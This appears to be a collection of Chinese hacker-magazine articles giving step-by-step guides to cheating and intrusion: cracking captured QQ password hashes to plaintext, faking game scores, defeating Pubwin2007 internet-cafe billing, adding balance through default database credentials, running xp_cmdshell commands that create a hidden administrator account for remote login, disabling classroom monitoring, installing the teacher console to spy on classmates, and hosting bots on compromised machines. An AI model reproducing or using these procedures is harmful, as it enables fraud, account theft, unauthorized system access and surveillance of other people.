?mp3=http://www.ma-friends.com/mp3/jacky/张学友-%20好久不见.mp3&autoStart=yes&repeatPlay=yes&name=好久不见.swf
```

☑ 网页嗅探器


但都不能播放，在此还希望高手们能够想出解决办法，不然播放器就成了摆设，只能当成挂件了。后来，我在网上瞎找，结果找到了一个不错的网站，直接可以添加播放器，但可惜只能是单曲。喜欢的话大家可以去看看，操作非常简单。相信这里面的几十个播放器不会比QQ空间中的商城差，而且也是全部免费，地址是“http://www.tqqa.com/mp3Play/index2.html”，如图12。

#### 三、皮肤

说到皮肤，感觉有些鸡肋，在此就跟大家简单提下。同样是打开商城，找到自己喜欢的皮肤，然后打开遨游浏览器中的网页嗅探器，嗅探类型选择jpg，如图13。这个和前面的操作基本上一样，只是嗅探到的网址只能做大图使用。在模块里选择大图模块，模块标题可以任意填写，地址就填写嗅探到的图片地址；地址后面的内容通常为数字+_top.jpg，如图14，点击确定后就可以浏览了。


## QQ游戏基地——玩的就是刷分

007菜鸟

前几天在好友的极力推荐下，我在QQ空间中添加了游戏基地，这里面都是一些比较经典耐玩的好游戏。不但如此，我们甚至还可以和好友互相挑战下战书呢！

看到好友们的分数节节攀高，咱也不能示弱啊。但可惜的是技不如人，玩了好多次还是不能打破好友的记录，我又不会编程啥的，这可怎么办呢？我到网上找了找，发现像我一样的小菜鸟还真不少，好多人都在发帖子询问呢！

不一会儿百度就给我找到了几个刷分器的地址，我全都下载了下来，使用后进行了比较，发现只有“彬彬游戏基地刷分”比较好用，体积非常小，效果也非常好，而其他的几个则都有这样那样的小“缺陷”。

下面我就介绍一下这个刷分器的详细使用。解压之后我们会看到一个名为tool的url文件和几个js后缀的文件，暂时先不要管这些文件。登录自己QQ空间，如图1，在应用列表中添加游戏基地，如图2，然后再点击游戏仓库，看有哪些游戏是自己喜欢的，如图3。

选择好要刷分的游戏后，我们看看该游戏的排行榜，然后双击刷分器中那个名为tool的文件，就会打开一个页面，如图4。在该页面的下拉框中选择我们想要刷的游戏，再输入你想刷的游戏分数，点击后边的“提交”按钮，它就会弹出一个询问提示框，不用管它，直接点确定就行了，如图5。

返回到排行榜的地方刷新一下看看，是不是我们的分数已经上去了，如图6。这个刷分器可以刷的最高分数是2147483647分，分数不要刷得太高了，毕竟谁都不会相信你自己能玩到几十亿的分数，差不多比别人高那么一点点就可以了。


最后我再强调一下，在使用这个刷分器前，你的QQ空间必须要保持登录状态，否则是不能刷分的，会提示未登录，如图7。

（文章中所用到的彬彬游戏基地刷分[最新版]已收录到光盘中）


> 文字摘要：这篇文章主要介绍了QQ Hash值的获取及解密过程。

## 小菜来解密 QQ Hash

ScudesertXof（杨场）[S.A.]

在今年第7期和第9期的杂志中都提到过如何获取QQHash值。虽然我们可以使用得到的加密密码直接登录对方的QQ，但QQHash毕竟是加密的，也就是说我们并没有得到对方的明文密码，除了登录对方的QQ外，其他什么都做不了。我曾问过QQ群里有没有人会解密QQHash，但他们都很茫然，所以本文我就介绍一下如何解密得到的QQHash值。

介绍一下解密过程，喜欢破解的叉子也可以试着解密这个网页的源文件。双击打开这个htm文件，在QQ密码栏随便输入一个简单好记的密码，如图1。记录下刚才生成的QQHash值，这里就是“QQ2008的路径” /START QQUIN:985476296 PWDHASH:q8SGY+sD9scpCP2EpNm54A== /STAT:40。

至于如何获取QQHash值我就不多讲了，有兴趣的读者可以参看那两期的杂志。我主要介绍一下如何将QQHash值解密从而获得明文密码。首先说一下QQ2008和QQ2009，它们是不同的，我们获得的QQHash值都是用于QQ2008，所以就不用考虑使用QQ2009登录了。再说一下QQHash的加密方法，QQHash值有两层加密，顺序依次是md5和base64。前者的加密算法是不可逆的，强度弱的密码可以使用md5生成对比软件暴力破解出密码，而强度比较高的密码就只好到专门的md5在线网站进行破解了。

本文我就使用“QQ防盗登录器（WEB版加密）.htm”来打开QQhash转MD5工具，把上边得到的“q8SGY+sD9scpCP2EpNm54A==”输入到“MD5值”一栏中，点击“转换”，这样我们就完成了QQhash值到md5的转换，即解密了base64，如图2。然后我们再打开MD5专业解密器加强版，把转换得到的“ABC48663EB03F6C72908FD84A4D9B9E0”输入到“破解单个密文”栏中，点击右侧的“开始”进行破解。这个密码比较简单，我的电脑只用了10s就把明文密码给破解出来了，如图3。


如果密码强度很大，建议大家再试试“MD5在线破解器.exe”这个工具。如果实在跑不出来，那我劝你还是试试社工吧。

（文章中用到的QQ防盗登录器（WEB版）、QQhash值转化、MD5在线破解器等，已收录到光盘中）

## 不是黄钻 QQ牧场也照样开

白雪龙

★文字用卡点★  
文字用卡点，非常帅，给力的用户使用工具。打通自己的QQ牧场。

QQ牧场是腾讯继QQ农场后最新推出的互动游戏，也可以说是QQ农场的一个强力补充，但是它的开通资格目前却是很严格的，要求黄钻等级必须是3级及以上的用户才能开通，如图1。那我们这些不是3级的用户难道就不可以开通了吗？答案当然是否定的，下面我们就来看免费开通QQ牧场的方法吧。


前几天在网上闲逛，无意中看到了一款可以免费开通QQ牧场的软件，它的使用方法非常简单，软件也只有几K大小，其双击运行后的界面如图2所示。我们只要登录自己的QQ便可以开通成功了，但这个软件每天都有一定的开通名额，所以大家要想开通的话只能是整点蹲守了！我使用这个工具已经开通成功了，如图3所示就是开通成功的提示。叉子们，还等什么呢（注：如果提醒开通失败的话，原因应该是开通的人数已经达到了上限，只能第二天再继续开通了）？


（文章中涉及到的QQ牧场开通工具已经收录在了光盘中）

## 利用Qabot实现两个QQ群之间的信息转发

这个秋天有点冷

假设我们加入了两个QQ群，A群和B群，这两个群的人数上限都是100人。为了使这两个群中的会员可以相互交流，那么我们就需要使用某种方法将这两个群桥接起来，实现两个QQ群之间的信息共享，这就是QQ群的互通。我们可以使用一款名为QQ_BOT的QQ群互通工具，这个软件可以实现将不同的QQ群互通，以方便Q群之间的聊天交流等。

把软件解压后存放到D盘的根目录下，当然存放到其他目录下也是没问题的，如图1。建议大家申请一个新的QQ号使用，如果我们把自己经常使用的QQ号用到这个桥接程序中来，那么就不能正常使用你的这个QQ号了，所以最好是专门申请一个QQ号。


把这个新申请的QQ号加到你准备桥接的几个群中。比如我新申请的QQ号为1310725653，而两个准备桥接的群号分别是41657667和67264583。都准备好后，我们打开QQ_Bot目录下的QQ.ini这个配置文件，需要更改的只有两个地方：

```
;自己的QQ号码。
UserID = 

;QQ密码，可填可不填。
PassWord =
```

注释都已经写得很清楚了，相信大家都可以看明白。填写好使用的QQ号和QQ密码，如图2。


更改完后我们再在配置文件里找到如下所示的信息（也就是在文件的最下面）：

```
;要搜索的Group号码，会显示几个要素，用于填入下面。
Group =
;GrpExtID是QQ的显示群号
;GrpName是QQ群的名称
;GrpIntID是QQ群的真实号码

[Group 1]
GrpExtID=
GrpName=
GrpIntID=
[Group 2]
GrpExtID=
GrpName=
GrpIntID=
```

在[Group 1]下面的GrpExtID后面填写上你的第一个QQ群号码，在GrpName后面填写上你要给这个QQ群定义的名称，可以和QQ群的真实名称不一样，越简单越好，建议大家设置为数字1。GrpIntID这个值可以随手填写一个6到8位的数字，比如12345678。过会儿我会告诉大家如何修正这个值，这个值是程序根据GrpExtID（也就是QQ群号码）来计算获得的。关于[Group 2]的修改办法，大家可以参考[Group 1]的填写。

下面就要计算GrpIntID后面的真实ID了，把第一个群的GrpExtID（QQ群号码）填写到Group后面，然后保存。也就是通过程序计算出第一个GrpExtID（QQ群号码）的GrpIntID值。比如我填写的情况如图3所示，然后保存关闭配置文件，运行目录下的QQ_Bot.exe程序，就会弹出第一个群的详细信息，如图4。

我们把得到的这些信息填写到[Group 1]下面对应的位置上去。填写好第一个群的信息后，我们再来计算第二个群的GrpIntID真实ID值，方法同上面的一样，只是把Group后面的数值改成第二个群的号码就行了，如图5。填好后保存，再次运行目录下的QQ_Bot.exe，稍等一下就会弹出第二个群的详细信息，如图6。

```
;要搜索的Group号码，会显示几个要素，用于填入下面。
Group = 41657667

;GrpExtId是QQ的显示群号
;GrpName是QQ群的名称
;GrpIntId是QQ群的真实号码

[Group 1]
GrpExtId = 41657667
GrpName = 1
GrpIntId = 12345678
[Group 2]
GrpExtId = 67264583
GrpName = 2
GrpIntId = 12345678
```

图3


图4  
图6

```
;要搜索的Group号码，会显示几个要素，用于填入下面。
Group = 67264583

;GrpExtId是QQ的显示群号
;GrpName是QQ群的名称
;GrpIntId是QQ群的真实号码

[Group 1]
GrpExtId = 41657667
GrpName = 爱爱爱
GrpIntId = 2121657667
[Group 2]
GrpExtId = 67264583
GrpName = 2
GrpIntId = 12345678
```

图5

还是把得到的这些信息填写到[Group 2]下面对应的位置去。现在第一个群和第二个群的信息就都填写完毕了，把Group后面的数值删除掉后，保存一下QQ.ini，配置就算完成了。如果在运行QQ_Bot.exe的过程中出现了如图7所示的这个对话框，大家不用管它，直接点确定关闭后重新再运行QQ_Bot.exe就可以了。


图7

激动人心的时候到了，再次运行程序目录下的QQ_Bot.exe就算OK了。可能有的小菜要问，我运行后怎么没有看到运行成功的提示呀？事实上，这个程序运行是没有提示界面的，我们打开任务管理器就可以看到它了，如图8。大家看到了吧，QQ_BOT的进程正在运行哦。我们在群里发条信息看看，成功地在两个群里进行了转发吧，如图9。


图8


图9

文章的最后还有两个小问题：

- 如何关闭Qqbot？我经常的做法是打开任务管理器直接结束掉QQ_BOT的进程。
- 我们实现两个群的桥接后，自己的电脑不可能一天24小时开着来进行转发，再说也开不起。这时候可以找比较稳定的肉鸡挂上，这样就可以一天24小时来进行转发了。

软件作者说可以支持4个群同时进行转发，不过我没有测试过，有兴趣的读者不妨测试一下。

（文章中涉及到的QQ_BOT已经收录在光盘中）📷


> 本期关键点：使用网吧幽灵 V3.5 里的复制 config.dat 文件功能替换 Pubwin2007 里的管理员密码，从而绕过限制。如果在使用过程中出现“内存无法读取”请不要管它。

## 管理员密码替换法

### 决战 Pubwin2007

swan

记得以前我曾给大家介绍过傻瓜式的方法来破解 pubwin2007，但 pubwin2007 的版本也一直在升级，尤其是 0804 版本以后对其安装目录采取了 360 文件驱动保护，这使得我们很难再对其文件进行操作了。经过测试发现，以前使用的 U 盘引导启动的方法、使用防火墙阻断其与主机的连接以及挂其进程的方法都已经失效了。我曾经利用“超级防锁专家”这款软件成功地进行了破解，但经本人公布方法后，该软件已经无法运行了，如图1。


破解此类被禁软件的方法可以从以下几方面进行：

- 1、直接从 U 盘来运行软件；
- 2、对软件进行“壳上壳”的加壳处理；
- 3、删除目录 PAV.DAT 这个文件；
- 4、迅速卸载 pubwinclient.exe 加载的全部 DLL，然后再运行软件。

至于成功运行后再利用破解软件傻瓜式破解的方法，我就不再重复介绍了，大家可以参见以前的黑客 X 档案。

为了普及大家对 pubwin2007 的认识，尤其是“破解软件”破解的原理，在破解的过程中我将尽可能详细介绍破解网吧程序时的“注意点”。基于 0804 版本的普及，我们就以它为例来进行破解，当然还有 0808 等版本，最新的已经是 0902 版本了，但此方法仍然适用，如图2。


我们需要准备的“材料”是：网吧幽灵 V3.5、防 PING 安全策略和 config.dat。网吧幽灵 V3.5 是一款网吧辅助工具，同时也是一款破解网吧的利器，我们需要利用它突破 PUBWIN 的文件保护功能来强行复制文件，而防 PING 安全策略则是用于主机显示“离线”状态。至于 config.dat，是储存其管理员密码的文件；同理 pav.dat 是存储被禁软件“特征码”的文件，删除它后就可以运行被禁的软件了。这两个文件都是存放在 `\Program Files\Hint-Soft\PubwinClient` 目录下的，如图3。


破解步骤如下：

- **1、复制 config.dat 到安装目录**

这个过程需要使用网吧幽灵 V3.5，其运行后的界面如图4所示。如果要详细介绍这款软件的功能和使用，恐怕又能单独写一篇文章了，因此我只介绍它与本次破解有关的操作。我们来到“文件管理”项，定位到我们准备的 config.dat 文件，然后点右键选择“复制”，再找到 pubwin 的安装目录，如图5。


提示：

- （1）此 config.dat 的管理员用户名和密码均为“admin”，而原本的 config.dat 包含的管理员用户名和密码都是未知的。
- （2）终止并重新运行 PUBWIN 主程序。这里我们还是使用该软件已经具备的功能，打开“进程管理”项，找到 pubwin2007 主程序的进程名，然后点右键选择“终止并且重新运行”，如图6。


#### 2、使用 admin 登录

在执行了“终止并且重新运行”后，电脑将会出现登录界面，这时候我们就可以选择下机了。至于是直接到柜台下机还是重新到另一台电脑下机，那就随你的便了。下机后，在登录界面的用户名和密码处均输入“admin”，如图7。

提示：如果没有下机就使用管理员号登录，那等你下机的时候又会进入登录界面。为了不至于这么麻烦，还是早下机为妙。


为了证明我们已经破解成功，大家可以点右下角的图标，看一下有什么不同，现在我们可是以管理员的身份登录的啊，如图8。


#### 3、导入防 PING 策略

基于网吧判断是否为“非法状态”的条件是：如果过了两个握手周期，客户机仍不在线但能够 Ping 通，就表示“非法上机”。也就是说，两个握手周期后如果用户没有登录电脑，那台电脑就肯定会被强行关机；但如果还能 Ping 通，那就可以肯定电脑是在网吧程序被破解后仍然继续开着。


为了便于大家的操作，策略是已经生成的，我们只需要导入文件就可以了。在运行 noping.exe 前，我们先要确定服务是否开启，只要双击运行下面的批处理文件就可以了，具体内容如下（包含服务介绍）：

```batch
@echo off
@rem (IP 安全性服务)
@rem 微软：管理 IP 安全性策略并启动 ISAKMP/Oakley (IKE)
及 IP 安全性驱动程序。
@rem 补充：IPSec 为虚拟私人网络 (VPN) 中提供安全性
@rem 依存：IPSEC driver、Remote Procedure Call (RPC)、
TCP/IP Protocol Driver
@rem 建议：禁止
sc config PolicyAgent start= demand
pause
```

运行 noping.exe 进行导入策略，根据图9所示进行操作，导入我已经准备好的 xinjianliceshiban.ipsec 文件。再接着，就是指派策略了，我们在新策略上点右键，选择“指派”就可以了，如图10。如果最后没有进行指派，策略就算导入了也不会起效，这一步非常关键。导入并且指派后，策略会显示为“是”的状态。

#### 4、被抓前的准备

可以利用屏幕程序构建电脑故障情形，也就是“准蓝屏”的屏幕保护程序，并设置快捷键。一旦发现什么蛛丝马迹，马上“蓝屏”，并大喊“什么破机器啊，老子是花钱玩的”，接着直接重新启动电脑，接着……


对 pubwin2007 伪装精灵比较熟悉的朋友们，有没有发现其实它也是利用了管理员密码替换法来上机的呢？还有要说明的就是，网吧幽灵这款软件的虚拟桌面、阻止关机等功能也可以用来破解网吧程序，其功能远远超过以前所使用的精锐网吧辅助工具，建议网吧小黑们必备此款软件。

防 PING 策略要在破解成功后启用的，如果你先防 PING，再把 pubwin 断开或者进行破解，它就再也连接不到你了，一定要破解后才可以防 PING。千万不要单纯使用超级锁专家在 0804 版本进行免费上机，很危险，后果自负。

（本文所涉及到的网吧幽灵辅助工具 V3.5、config.dat、绝对显示离线的工具已收录到光盘中）

### 与网吧对抗到底

黑枫无泪（黑色断刃[B.B.E]）

好久没有写文章了，正好最近有两款软件要发布，就先共享给大家了，这两款软件分别是 Eraae v1.7 和 HR Process。


#### Eraae v1.7

网吧中的管理软件我们统称为网管软件。都说有矛就有盾，网管软件的出现也就使得与其相抗衡的破解软件出现了。Eraae 就是在这样的一个环境下诞生的，经常在网吧上网的小菜对于这款软件肯定不会陌生。关于 Eraae，在以前的杂志上也曾经介绍过，当时还是 1.5 版本，这次的 1.7 版本就不再重复以前介绍过的功能了，我们主要介绍下 1.7 版本对比 1.6 版本中的新功能。


软件运行后的界面如图1所示，主要增加了硬盘容量和显卡型号获取。在“限制突破”功能中并没有什么更新，就直接跳过吧，来看“进程管理”功能，如图2。

新版本增强了结束进程的功能，能结束掉系统进程和一些杀毒软件的进程。我来简单介绍一下，就以系统进程进行测试：先用普通的方法结束系统进程，提示无法结束进程，如图3；然后再使用 Eraae 结束选中的系统进程，提示了倒计时关机，这表示 LSASS.EXE 进程已经被成功结束掉了，如图4。

我再给大家介绍它另外一个强大的功能，就是截获系统发送的关机、重启消息。在网吧中如果不小心一个误操作就有可能会引起系统的自动重启，而新版本 Eraae 推出了截获系统消息功能后，大家就可以更放心地与网管软件作斗争了。我们来测试一下这个功能，在打开 Eraae 的前提下，直接关机或者重启系统，Eraae 就会自动拦截到消息并弹出提示以供大家选择。如果不想关闭，那直接按回车或点击“拦截”按钮就可以了，如图5。Eraae 可以说是目前第一款能够截获系统重启、关机消息的网吧破解辅助软件，绝对是网吧小黑必不可缺的一款破解利器。


#### 下面我针对使用 Eraae 时经常碰到的一些问题进行回答：

Q: 为什么打开软件后会提示我安装 office？  
A: 这是因为软件需要控件的支持，而你的 office 安装得并不全，所以才会导致这个问题的出现，建议如果可能的话删除 office 或重新安装 office。

Q: 打开软件后出现“遇到问题需要关闭”该怎么办？  
A: 这个问题不会经常出现，也不会影响使用，直接点击不发送即可。

Q: 为什么我在网吧打开 Eraae 后没有反应，但在家里就可以正常打开？  
A: 这是因为网吧对 Eraae 采用了镜像劫持，可以改名后试试，或到官方下载 HR Process 软件来打开 Eraae。

Q: 出现了“无法提权到 SYSTEM，Eraae 将以普通权限运行”是怎么回事？  
A: 这是因为当前用户的权限不够，无法提权到 SYSTEM 权限。

#### 二、HR Process

HR Process 是一款功能强大的进程管理软件，也是 Eraae 1.7 进程管理这块分离出来的同一个独立软件。该软件包含了两大功能，分别是结束进程和提权进程。

- 1、结束进程功能可以结束掉大部分进程，包括一些杀毒软件及系统进程，支持多进程同时结束，中间使用“,”分开，不区分大小写。
- 2、提权进程功能可以使程序以最高权限运行。

这个软件同时集成了两个版本，即 GUI 版和 CMD 版。我们可以直接双击运行软件，也可以调用 cmd.exe 来执行。软件运行后的主界面如图6所示，界面很简洁，只要在上面填好要结束的进程就可以了；如果想要进程提权的话，则需要在上面填写文件的绝对路径，填好后直接点击“提权进程”按钮就会自动打开程序，打开后的程序拥有系统最高权限。

刚才介绍的是 GUI 版，那么 CMD 版又是怎样的呢？在软件根目录下自带了一个 cmd.bat 文件，直接打开此文件就会调用 cmd.exe 程序，CMD 版的命令格式如下：

```
结束进程 HRProcess /kill xxx.exe
进程提权 HRProcess /uptosys 文件的绝对路径
```

只有 kill 和 uptosys 这两个参数，CMD 版是为了方便在 cmdshell 权限下能方便使用，如图7。最后我再说明一下，如果程序是在 system32 文件夹下的话，就不用加绝对路径了，直接填写程序名字即可。我执行了计算器程序，大家可以看到已经打开了计算器程序，在任务管理器中也看到了计算器的进程 calc.exe，用户名是 system，也就是说程序已经提权成功了，如图8。


除此之外，进程提权还有一个隐藏的功能，就是能防止软件镜像劫持。比如 A.EXE 程序被镜像劫持无法通过正常的方式运行，那么我们就可以使用 HR Process 的进程提权功能使 A.EXE 照样运行在我们的面前，具体如何操作就留给大家自己去测试吧。

（文章中涉及到的 Eraae v1.7 和 HRProcess，已经收录在了光盘中）📀

> 文章导读：本文向大家说了 Pubwin2007 计费软件，如何使用 DbView 和 3389 远程连接访问破解 Pubwin2007。

### Pubwin2007 破解 + 加钱 + 办会员 + 肉鸡一条龙

水晶萧竹

在网吧上网，大家一定都很痛恨那些计费软件吧，比如 pubwin2007、万象等。我们这儿的网吧清一色使用的都是 pubwin2007，所以我也只是对 pubwin2007 有点儿研究而已。看了前几期杂志上关于 pubwin 的破解文章后有点儿激动，于是就把自己的一点破解心得也共享出来了。


我们要用到的工具有 Pubwin2007 计费幽灵增强版、DbView（这是一个数据库连接器，为什么不用前期文章中所提到过的数据库连接工具呢？这是因为我在测试的时候发现连接不上去）和 3389 终端连接器。

打开“Pubwin2007 计费幽灵增强版”，程序主界面如图1所示，我们只要用到其中的“StopPbw 停止计费”和“Pub 破解伪装卡号”这两个功能。点击“StopPbw 停止计费”，如果出现了如图2所示的提示窗口，就表示客户端已经停止成功了。


大家就趁早跑路吧，别被网管逮到了，呵呵。客户端停止后就是伪装了，使用“Pub 破解伪装卡号”功能，用法和 4 期杂志中介绍的一样，就不再重复了。

下面我来说说加钱的方法。运行 DbView，点一下图中那个“打开文件夹”的图标就会打开连接窗口了，如图3，我们要填的是“SQL SERVER”这一项，如图4。

“服务器名称”栏填写计费主机的内网 IP 地址，不知道的话，我们可以使用抓包工具选择 pubwin2007 的进程，然后在查询消费余额时就能找到了。用户名和密码分别填写 netcafe 和 pubwin，数据库名称就填 local，这些都是 pubwin2007 默认的。填写好后点击“连接”按钮，连接成功后在最左边找到“mem_localmemberba”表，这里记录的是所有会员的数据信息，如图5。

在这里我简单介绍一下 pubwin2007 的记账方法。首先我们上机时，它要从“mem_localmemberba”表中的“RealName”项中找到你的卡号（如果你是会员的话），然后把你“Nalance”项中的数字提到“cur_user”表中的“repay”项中，并把“Nalance”项中的数字清零。当你结账时，再把“cur_user”表中的“repay”项中的数字减去你上机花去的钱，再加上“RealName”中“Nalance”项中的数字。所以想要充钱的话，在“RealName”项中找到自己卡的名字，然后在“Nalance”项中填写比充值大 100 倍的钱数，比如充 20 就要改为 2000，但这不一定就是充了 20 元，因为还要加上“repay”项中的数字。注意，在改的时候要点下如图6所示的标志，然后再保存。最后点下保存的图标，然后再结账、再刷卡上机。


办会员最方便，我们只要在“mem_localmemberba”表中的“CertOriginI”项中将别人的卡号改成你的卡号就可以了。当然我们也可以自己新建一个，方法参见 5 期杂志。下面是特定环境的情况，我们这儿的网吧不知道为什么都打开了 3389 终端服务，所以我们可以使用 SQL 添加一个用户。点击一下图7中那个绿色右三角形按钮，就会出现执行 SQL 命令的窗口了，我们分别执行以下两条命令：

```sql
exec xp_cmdshell 'net user MyName 123456 /add'
exec xp_cmdshell 'net localgroup Administrators MyName /add'
```


就会成功添加一个用户名为 MyName、密码为 123456 的管理员用户了，最后就可以使用远程桌面连接登录进去了，如图8。

（本文所涉及到的 Pubwin2007 计费幽灵增强版、DbView 已收录到光盘中）

文章导读：在网吧上网使用 360 查杀某些流氓软件确实很管用，那么实验室或者是教室呢？

### 彻底摆脱老师的监控

Stream

和往常一样来到学校机房，开机后却发现多启动了一个叫学生机的程序，调出任务管理器，也发现多出了个 student.exe 的进程，尝试直接停止这个进程，没有成功。我又打开 CMD，使用命令强制结束，同样也没能成功。这倒也是，如果一个远程管理软件这么容易就被搞定，那才叫不正常呢！

桌面右下角的任务栏中也多出了一个图标，把鼠标放上去显示的是 iclass_student，我决定找出它的存放路径。返回到桌面，按 F3 调出搜索框，全盘搜索 student，没多久就找出来了：`C:\Program Files\e.Net\iClass\NoNeedManager\Student`（其实看到一个新的软件，如果能找到它的进程，再找它路径的方法有很多，上面使用的那种方法是比较手工的。我们也可以在任务管理器中点右键“打开所在目录”，或者是安装有 360 的话，到“高级”下的“系统进程状态”那儿查看一下也可以知道）。我看了一下该软件的说明，知道了它叫洪恩多媒体网络教室。我判断这个远程管理软件应该也分为服务端和客户端，要是自己网上下载一个，安装上老师用的客户端，那就能控制其他人了。可是现在才刚上课，学校机房又没有连接外网，那就先来看看这个 student 进程吧。刚才我们使用手工停止的方法没有成功，这回就换用 360 试试，如图1，没想到成功了。好了，没有了老师的监控那就安心多了。

下课回到宿舍，我在网上找到了这款远程管理软件。第二天上课，就开始验证自己的想法：先用这管理软件自带的卸载程序卸载学生机（一开始我曾使用系统的卸载功能尝试过，但没能成功），然后提示我们重启电脑，但我发现不用重启也行，很多时候重新开启 explorer 进程或者注销也都能达到重启的目的。接下来就是安装老师机了，学生机和老师机都是同一个安装程序，只是选择的时候不一样而已，如图2。安装快完成的时候突然提示说找不到 Teacher.exe，这怎么可能呢，除非安装程序有问题。正当我郁闷的时候，看到了右下角 NOD32 的图标，是不是它搞的鬼呢？把 NOD32 监控全关了，重新再安装一次，OK 了。


出现这个问题的原因可能有两种：

- 1、这个远程管理软件被 NOD32 列入了病毒列表；
- 2、这个安装程序可能被人绑了马。

### 网吧黑客

本以为登录的时候还会让我输入验证密码什么的，没想到什么都不用输就可以直接进入，如图3。


图3

可如果每次上机想查看别人在做什么，都需要这么麻烦的话也不行。我又突然想起自己不是有冰点的密码吗？按“CTRL+SHIFT+ALT+F6”调出冰点，填上密码，竟然提示我说密码错误，这怎么可能呢？我找出以前使用的破解软件，密码竟然没有出来，仔细一看才发现，原来现在使用的这个冰点已经不是上次那个版本了。我用了以前的几种破解方法但都没有成功，只好又到 Google 上搜索了一下，好在冰点的破解方法有很多。我一个个地在学校机房里进行实践，搞笑的是，我每用完一种方法后不久，这种方法就会在学校机房失效，不知是不是因为自己的 RP 值太高了 o(∩_∩)o。

在 Google 上找出的方法基本上都是以前用过的，所以我跑去暗组，记得以前在那里面看过一个 6.0 以上版本通杀的工具，找到后到学校机房试用了一下，还真管用。破解了冰点，再把老师机安装上，我把它安装到了 360 的安装目录之下，省得其他人不小心找到了，最后又把程序等一些地方清理了下，顺便也把计算机名、IP 地址也改了，这样就安全多了。

（本文所涉及到的 360 安全卫士、冰点 6.0 以上版本通杀的工具已收录到光盘中）

### 简单两招破解天寓电子教室系统

Forlorn

这几天的电脑课都在学习网页制作，内容极其无聊，想偷偷地看会儿电影还要随时提防被老师偷窥，而且电脑还动不动就黑屏肃静什么的，实在是太烦人了，这天我终于忍不住了，决定把这个管理软件破解掉。

学校机房里使用的是天寓电子教室 V6 2007 豪华版，在它的自述文件里把软件吹得天花乱坠，介绍了 N 种功能，那么这款貌似很好很强大的软件到底会是什么样呢？


图1

### 一、强行 kill 进程

本人是一个小菜鸟，当然使用的也是菜方法了。要想不受控制，最简单的办法就是把监控程序的进程给 kill 掉了。在程序的自述文件里已经注明在学生机上只有一个进程，就是 StudentMain.exe。我们调出任务管理器，找到该进程，点右键直接选择结束进程，结果当然是失败了呀，否则这个软件也太傻瓜了吧，提示说“无法完成操作，拒绝访问”，如图1。

看来，想这样简单地结束进程是行不通了。正准备上网找点小工具时，忽然想起了前段时间看过的 ntsd 命令，或许它能派上用场。ntsd 是从 Windows 2000 开始系统自带的进程调试工具，位于 system32 目录下。ntsd 的功能非常强大，用法也非常复杂，但倘若只是用来结束一些进程，那还是比较简单的。在 Windows 系统中只有 System.exe、smss.exe 和 csrss.exe 不能结束，前两个是纯内核态的，最后那个则是 Win32 子系统，ntsd 本身需要它。我们首先进入 cmd，输入 tasklist，查看系统当前所有的进程，找到那个 StudentMain.exe，然后执行 `ntsd -c q -pn StudentMain.exe`，闪过一个窗口后，这个 StudentMain.exe 进程就被我们结束了。此时，在教师机那里显示的是这台电脑没有登录，我们现在就可以随便地玩了。

在上面命令中，-c 表示执行 debug 命令，q 表示 quit，即执行完毕后退出进程，-pn 后面就是你想结束的程序名，注意后面的 .exe 是不能省略的，否则系统会告诉你“不支持此接口”。如果大家觉得进程名太长输入不方便，也可以把 -pn 换成 -p，并在后面加上进程所对应的 PID 值，即 tasklist 命令里进程名后紧接着的那串数字。如果你实在懒得记命令，还可以使用 ProcessOver（进程结束者），软件运行后，会列出系统当前所有进程的详细信息，在下方还有几个结束进程的功能按钮，选中想要结束的进程，点击“ntsd终止”就行了，如图2。

### 二、巧妙 crack

解决了监控程序后，我们就可以随心所欲地玩电脑了，但无意中我又发现了一个更简单、更光明正大的方法。点击天寓教室的图标，会出现一个“设置”的选项，但是需要密码才能进入，如图3。下面我们要做的就是破解这个密码。提到破解密码，对我们小菜来说是件可望而不可即的事情，而暴力破解就更不用提了。不过这里我们不需要使用什么字典之类的东西进行暴力破解，只需要动手，密码自己就会出来了。


在“开始”→“运行”栏输入 regedit，打开注册表编辑器，依次找到 `HKEY_LOCAL_MACHINE\SOFTWARE\TopDomain\e-Learning Class Standard\1.00`，仔细看右面键值的名称，熟悉的 passwd 出来了，那个 uninstallpasswd 后面的数值就是密码，如图4。密码都有了那还等什么，直接登录进入，终于可以光明正大地直接选择卸载软件了，够简单吧，如图5。

以上就是破解这款电子教室软件的两个小方法，没有什么高深的地方，希望能给大家一点帮助。（文章中涉及到的 ProcessOver，已经收录在了光盘中）


### E盾也来实现免费上网

swan

E盾是一款 HIPS 类型的软件，此类软件可以由用户通过编制规则来实现对系统各类操作的自由控制，计算机程序的每一个动作经用户允许方可执行，未经允许则不能执行。目前很多网吧都安装了 E盾来防止用户破解 Pubwin2007，据说网吧有了它，免费上网就成为了历史，主要是因为它会阻止关机的行为，而且网管也可以自定义很多规则来限制破解 Pubwin。我在一个没有安装 E盾的网吧下载了此软件并进行了分析，居然有了出乎意料的结果。


E盾是一款免安装的绿色软件，下载后解压就可以直接使用了，其最新版本是 EQSecure E盾2008 V4.0 Beta3。我们到其目录查看一下，发现里面有三个应用程序，但很容易就可以知道主程序名为 EQSysSecure.exe，如图1。

双击运行程序，我们来看看它的真面目，可以清楚地看到 E盾的防护是三个环节同时进行的，可以说是三位一体的立体式防护，应用程序、文件、注册表都可以创建规则，如图2。它的 HIPS 用来防病毒的功能在此就不多做介绍了，我们主要介绍在网吧破解方面的内容。


在界面左上角找到“保护模式”，打开后找到“系统常规操作”下的“关闭/重新启动”一栏，其默认选择是“询问并且允许”。看到这儿，聪明的叉子应该已经明白了破解的原理，其实我们破解的方法只是阻止 Pubwin 关机而已，如图3。继续我们的思路，找出其余的选项，选择“阻止并且结束程序”。当然了，我们也可以选择“阻止”等选项来进行测试。


顾名思义，如果 Pubwin 关闭或者重新启动电脑的话，我们强大的 E盾就对它不客气了。设置好后，我们要做的就是让其发出关机命令，如图4。

| 保护类型 | 操作 | 日志 |
| :--- | :--- | :--- |
| ⊞ 进程间操作 |  |  |
| ⊟ 系统常规操作 |  |  |
| ▢ 关闭/重启系统 | 阻止并结束进程 | 是 |
| ▢ 安装全局钩子 | 询问并且允许 | 是 |
| ▢ 键盘记录 | 询问并且允许 | 是 |

图4

让其发出关机命令的方法有很多，我是直接到另一台电脑上机，这样的话，主机自然会让 PubwinClient.exe 发出关机的命令了。关机，这不正和我们的 E盾硬碰硬了吗？E盾肯定不肯的，拦截关机行为开始了。记住，我们的规则是“阻止并且结束进程”，但测试的时候还是会有询问的，如图5。


我们点击“阻止该操作”按钮的速度一定要快，有时候会出现短暂的死机状态，如果能做到狂点那就最好了。在测试的时候，还有一个程序也被拦截了，如图6。

